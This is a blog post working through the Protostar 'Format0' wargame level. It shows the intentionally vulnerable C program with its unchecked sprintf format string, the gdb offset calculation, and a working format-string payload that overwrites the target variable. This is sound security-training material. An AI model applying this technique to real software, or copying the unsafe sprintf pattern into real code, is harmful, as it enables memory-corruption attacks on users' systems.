 ```yaml
---
layout: post
title: "Protostar | exploit-exercises solutions"
date: 2015-02-21
comments: true
categories:
---
```


[Protostar](https://exploit-exercises.com/protostar/) introduces the following in a friendly way:

> * Network programming
* Byte order
* Handling sockets
* Stack overflows
* Format strings
* Heap overflows


##Format0 - format string vulnerability

This post assumes the reader know why a format string vulnerability occurs, if you don't know owasp have
a good intro [here](https://www.owasp.org/index.php/Format_string_attack).


Format0.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}

```

The given argument in vuln are saved into a buffer, without proper sprintf formatters.
We should be able to access and overwrite the target value with print specifiers.

The stack layout in vuln:

```
.text:0804844C buffer= byte ptr -4Ch
.text:0804844C target= dword ptr -0Ch
.text:0804844C string= dword ptr  8
```

And as string is below target we will be able to access and overwrite it with formatters.

Lets load it up in gdb and find the stack addresses for buffer and target to calculate the offset our format specifier will need to overwrite target relative from the buffer.

Relevant part of vuln function.

```nasm
mov    DWORD PTR [ebp-0xc],0x0 /*target = 0*/
mov    eax,DWORD PTR [ebp+0x8] /*format string*/
mov    DWORD PTR [esp+0x4],eax
lea    eax,[ebp-0x4c] /*buffer*/
mov    DWORD PTR [esp],eax
call   0x8048350 <sprintf@plt>
```

The addresses:

```
/*target*/
gdb-peda$ x/x $ebp-0xc
0xbffff35c: 0x00000000

/*buffer*/
gdb-peda$ x/x $ebp-0x4C
0xbffff31c: 0x00000001

```

Offset:```0xbffff35c-0xbffff31c = 0x40 = 64d```

And our payload becomes:

`64bytes+0xdeadbeef`

`%64x+0xdeadbeef`

`$(python -c 'print "%64x"+"\xef\xbe\xad\xde"')`


```
tomasuh@crunch:~/programming/pentest/protostar$ ./format0 $(python -c 'print "%64x"+"\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

Lets also verify it in gdb for fun.

![alt text](/images/format0.png "")